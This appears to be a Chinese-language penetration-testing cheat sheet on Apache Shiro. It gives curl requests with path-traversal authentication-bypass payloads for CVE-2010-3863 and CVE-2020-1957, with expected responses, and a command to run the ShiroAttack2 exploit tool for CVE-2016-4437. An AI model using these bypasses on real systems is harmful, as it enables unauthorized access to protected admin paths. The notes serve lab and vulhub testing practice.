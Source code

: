 # Shiro

<details>

<summary>Introduction</summary>

Apache Shiro 是一个功能强大且易于使用的 Java 安全框架，用于实现身份认证、授权、加密和会话管理等安全功能。Shiro 提供了简单的 API 和灵活的配置选项，使得开发人员可以轻松地集成安全功能到他们的应用程序中。它支持多种身份验证方式（如基于用户名密码的认证、OAuth、LDAP 等），并提供了细粒度的授权控制，可以基于角色、权限和资源进行精确的访问控制。Shiro 还提供了易于使用的加密和会话管理功能，帮助开发人员保护敏感信息和维护用户会话状态。由于其灵活性和可定制性，Shiro 被广泛应用于 Java Web 应用程序、桌面应用程序和后端服务等各种场景中，是 Java 安全领域的首选框架之一。

</details>

## CVE-2010-3863 <a href="#apacheshiro124-fan-xu-lie-hua-lou-dong-cve20164437" id="apacheshiro124-fan-xu-lie-hua-lou-dong-cve20164437"></a>

1.1.0 之前的 Apache Shiro 和 JSecurity 0.9.x 在将 URI 路径与 shiro.ini 文件中的条目进行比较之前不会对其进行规范化，这允许远程攻击者通过精心设计的请求绕过预期的访问限制，如 `/./` 、 `/../` 、 `/` 、 `//` URI。

```bash
HOST=; PORT=8080; # TARGET HOST INFO

curl http://$HOST:$PORT/admin/ -I
# HTTP/1.1 302

curl http://$HOST:$PORT/./admin/ -I
# HTTP/1.1 200
```

## CVE-2016-4437 <a href="#apacheshiro124-fan-xu-lie-hua-lou-dong-cve20164437" id="apacheshiro124-fan-xu-lie-hua-lou-dong-cve20164437"></a>

需要配置 JDK 1.8

```bash
cd ~/hack/tools/shiro/ShiroAttack2
java -jar shiro_attack-4.7.0-SNAPSHOT-all.jar
```

```bash
# REFERENCE DOCS
https://github.com/SummerSec/ShiroAttack2
https://vulhub.org/#/environments/shiro/CVE-2016-4437
```

## CVE-2020-1957

在带有 Spring 动态控制器的 Apache Shiro 1.5.2 之前的版本中，攻击者可以使用 `..;` 构造恶意制作的请求来绕过目录身份验证。

```bash
HOST=; PORT=8080; # TARGET HOST INFO

curl http://$HOST:$PORT/admin/ -I
# HTTP/1.1 302

curl http://$HOST:$PORT/xxx/..;/admin/ -I
# HTTP/1.1 200
```

```bash
# REFERENCE DOCS
https://github.com/vulhub/vulhub/blob/master/shiro/CVE-2020-1957/README.zh-cn.md
```
